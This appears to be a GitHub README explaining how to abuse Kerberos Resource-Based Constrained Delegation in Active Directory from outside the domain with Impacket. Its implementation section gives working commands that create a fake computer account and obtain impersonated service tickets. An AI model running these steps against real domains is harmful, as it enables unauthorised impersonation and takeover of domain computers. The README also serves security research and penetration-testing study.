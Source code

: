 # Abusing Kerberos Resource-Based Constrained Delegation

## TL;DR

This repo is about a practical attack against Kerberos Resource-Based
Constrained Delegation in a Windows Active Directory Domain.

The difference from other common implementations is that we are
launching the attack from outside of the Windows Domain, not from
a domain joined (usually Windows) computer.

The attack is implemented using only Python3
[Impacket](https://www.secureauth.com/labs/open-source-tools/impacket)
(and its dependencies). Tested on [Arch](https://www.archlinux.org/).

![Attack Log](./rbcd-attack.png)

## The Attack

In summary, without any deep details, the attack targets 
a domain computer, exactly service principals related to the
target domain computer.

What we need here as prerequisites:

* a domain account with write access to the target computer (exactly write access to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer domain object)
* permission to create new computer accounts (this is usually default, see `MachineAccountQuota`)
* LDAP (389/tcp) and SAMR (445/tmp) (or LDAPS (636/tcp)) access to the DC.
* Kerberos (88/tcp) access to the DC

The attack path in very high level:

1. Create a fake computer
2. Abuse `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target
3. Request impersonated Service Tickets (S4U) for the target computer

Benefit:

* Impersonated Service Tickets may allow high-level access to services on
the target like CIFS, HTTP, etc, if the impersonated account has privileges.

## Common toolsets

The common toolsets for this attack operate on a domain-joined
Windows Computer using:

* [Powermad](https://github.com/Kevin-Robertson/Powermad) for adding new computer accounts
* [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) dev branch for `abusing msDS-AllowedToActOnBehalfOfOtherIdentity`
* [Rubeus](https://github.com/GhostPack/Rubeus) for S4U ticket operations

## Impacket implementation

This implementation uses pure Impacket from outside the Domain.

### Creating the fake computer

Using addcomputer.py example from Impacket let's create a fake computer:

```
addcomputer.py -computer-name 'FAKE_COMPUTER$' -computer-pass SuperS3cr3tP@ss -dc-ip 10.13.37.1 domain.local/user:userpass
```

### Modifying delegation rights

Implemented the script (./rbcd.py) found here in the repo which
adds the related security descriptor for the newly created FAKE_COMPUTER to the
`msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

```
rbcd.py
```

The script uses heavily the Python classes in the `ntlmrelayx.py` Impacket example.

### Getting the impersonated service ticket

Now everything is ready for abusing the Constrained Delegation by an
S4U2Self query and get an impersonated Service Ticket for the
target computer. With `getST.py` Impacket example script:

```
getST.py -spn cifs/TARGET_COMPUTER_NAME.domain -impersonate TARGET_DOMAIN_USER -dc-ip 10.13.37.1 DOMAIN/FAKE_COMPUTER:SuperS3cr3tP@ss
```

The above command fetches a CIFS Service Ticket on behalf of TARGET_DOMAIN_USER
and stores it in the file TARGET_DOMAIN_USER.ccache.

After adding the file path to the KRB5CCNAME variable the ticket is usable for
Kerberos clients.

```
export KRB5CCNAME=`pwd`/TARGET_DOMAIN_USER.ccache
klist
```

## References

For details about abusing Resource-Based Constrained Delegation:

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/

And one of the most comprehensive presentations about Kerberos Attacks:

* [Constructing Kerberos Attacks with Delegation Primitives](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf) slides at Defcon by [Elad Shamir](https://twitter.com/elad_shamir) and [Matt Bush](https://twitter.com/3xocyte)
